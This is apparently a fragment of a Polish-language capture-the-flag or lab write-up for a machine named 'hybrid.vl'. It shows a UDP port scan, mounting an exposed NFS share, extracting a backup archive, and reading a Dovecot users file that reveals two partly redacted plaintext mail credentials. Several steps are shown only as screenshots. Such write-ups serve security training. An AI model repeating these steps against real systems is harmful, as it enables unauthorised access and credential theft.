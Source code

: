 ```
1023/udp  open|filtered unknown
1030/udp  open|filtered iad1
1646/udp  open|filtered radacct
2049/udp  open|filtered nfs
2223/udp  open|filtered rockwell-csp2
5060/udp  open|filtered sip
49152/udp open|filtered unknown
49193/udp open|filtered unknown
49201/udp open|filtered unknown

```

/etc/hosts
```
10.10.145.117 dc01.hybrid.vl 
10.10.145.118 mail01.hybrid.vl
```

 prosty chłopak jestem, widzę 2049 to puszczam showmounta.

 ![{7D7366BC-1FFD-4D4A-A707-3C0CDBEBA037}](https://github.com/user-attachments/assets/3199867f-294d-490c-9926-6438f576e948)

![{A957F612-5DD5-472B-80E4-DCB2669F9855}](https://github.com/user-attachments/assets/49d509d1-5889-41a6-ba7f-7202ca36f006)

```
 2067  cp /mnt/x/backup.tar.gz .
 2068  7z x backup.tar.gz
 2069  7z x backup.tar
```

```
ls -la opt/certs/hybrid.vl/
ls -la etc
```

![{F13EB37F-2B04-408F-AC0C-4220B23AC264}](https://github.com/user-attachments/assets/f085b1f6-1512-4326-b7f2-6dba28ffb656)

![{333BCFCC-DBFF-4350-B460-F4DA1E720198}](https://github.com/user-attachments/assets/633d0c29-39b0-4041-9add-4bebf9fa9dd4)

![{6641D9B1-0624-4FE5-8296-EAC00DABDE99}](https://github.com/user-attachments/assets/66dbac24-dd38-4a75-a12b-e1b7875bcf00)

```
vmail:x:5000:5000:virtual mail user:/var/mail/vhosts:/bin/sh

```
o ciekawe

```
cat etc/dovecot/dovecot-users
```
to dało nam username:password dwóch userów

```
admin@hybrid.vl:{plain}Du<coś tam. Zrób leniu>21
peter.turner@hybrid.vl:{plain}P<coś tam. Zrób leniu>l!
```
